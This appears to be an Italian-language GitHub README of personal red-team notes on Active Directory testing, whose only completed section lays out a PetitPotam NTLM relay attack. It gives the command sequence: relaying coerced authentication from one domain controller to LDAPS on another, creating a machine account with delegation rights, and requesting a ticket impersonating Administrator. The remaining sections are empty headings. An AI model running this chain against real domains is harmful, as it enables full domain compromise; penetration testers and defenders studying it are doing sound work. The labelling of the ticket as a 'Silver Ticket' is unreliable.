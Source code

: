 # ADTech

Appunti, metodologia di penetration test per il rilevamento di anomalie, elenco di strumenti, script e comandi di Windows che trovo utili durante INPT/AS (red teaming).

## Tabelle contenuti

- [Attack 1. PetitPotam - NTLMv1 relay attack](#STEP-1-PetitPotam-NTLMv1-relay-attack-)
- [Step 2. Reconnaissance](#STEP-2-RECONNAISSANCE-)
- [Step 3. Gaining access](#STEP-3-GAINING-ACCESS-)

----------------
### Attack 1. PetitPotam - NTLMv1 relay attack 🔐🕸🧑🏼‍💻

#### Prerequisiti

➤ PetitPotam sul Domain Controller

➤ Uso di NTLMv1 come protocollo di autenticazione

➤ Almeno 2 Domain Controller

#### Proof of Concept

➤ Set-up NTLM relay verso il servizio LDAP su l'altro Domain Controller

```
Terminale 1:

python3 ntlmrealyx.py -t ldaps://<DC2 IP> --remove-mic -smb2support --delegate-access
```

➤ Exploit della vulnerabilità PetitPotam, sfruttando il protocollo MS-EFSRPC per fare una chiamata API che triggera il target (DC1) ad autenticarsi alla macchina controllata dall'attaccante. Tale attacco funziona senza avere una utenza di dominio.

```
Terminale 2:

python3 PetitPotam.py -d <domain> <IP Attacker> <DC1 IP>
```

➤ La macchina attaccante riceve NTLM e lo inoltra al secondo DC tramite LDAP. Nello specifico l'attacco porta alla creazione di un nuovo computer macchina che gli viene assegnata la delega di impersonificare qualsiasi utente dentro DC1

➤ Viene forgiato un Silver Ticket per impersonificare un Amminsitratore dentro DC1. 

```
python3 getST.py -spn cifs/<FQDN DC1> -impersonate Administrator <domain>/'<username computer macchina creato>'
```

➤ Forgiato il ticket  

-----------------
#### STEP 2. RECONNAISSANCE 🕵


-----------------
#### STEP 3. GAINING ACCESS 🔓🧑🏼‍💻

---------------
#### STEP 4. POST-EXPLOITATION and LOCAL PRIVILEGE ESCALATION 🛠🧑🏼‍💻 


-----------------
#### STEP 5. NETWORK LATERAL MOVEMENT and PRIVILEGED ACCOUNTS HUNTING 🕸🧑🏼‍💻 

